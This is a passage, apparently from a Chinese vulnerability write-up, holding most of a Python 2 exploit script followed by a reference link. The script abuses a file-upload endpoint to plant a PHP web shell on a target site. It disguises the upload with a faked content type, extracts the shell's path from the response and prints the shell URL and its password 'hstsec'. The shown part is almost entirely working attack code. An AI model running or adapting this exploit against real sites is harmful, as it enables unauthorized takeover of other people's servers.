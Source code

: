 ```
    filename = "oneok'.php"
    with open(filename, 'wb') as shellok:
        shellok.write(shell)
    files = {
        'Filedata': (filename, open(filename, 'rb'), 'text/json'),
        'album': (None, 'waitalone.cn')
    }
    try:
        up_res = requests.post(up_url, files=files).content
        shellok = re.findall(re.compile(r'(?<=\.\./).+?(?=\',)'), up_res)
    except Exception, msg:
        print '\n[x] 发生错误了,卧槽!!!:', msg
    else:
        if shellok: return url + shellok[0]
if __name__ == '__main__':
    usage()
    start = time.time()
    url = sys.argv[1]
    if url[-1] != '/': url += '/'
    ok = getshell(url)
    try:
        os.remove('oneok\'.php')
    except Exception:
        print '\n[x] 删除临时文件失败,请手工删除!'
    if ok:
        print '\n[!] 爷,人品暴发了，成功得到 Shell：\n\n%s 密码：%s' % (ok, 'hstsec')
    else:
        print '\n[x] 报告大爷,本站不存在此漏洞!'
    print '\n 报告爷,脚本执行完毕,用时:', time.time() - start, '秒!' 
```

## 四、参考链接

> [https://blog.csdn.net/Fly_hps/article/details/80582751](https://blog.csdn.net/Fly_hps/article/details/80582751)

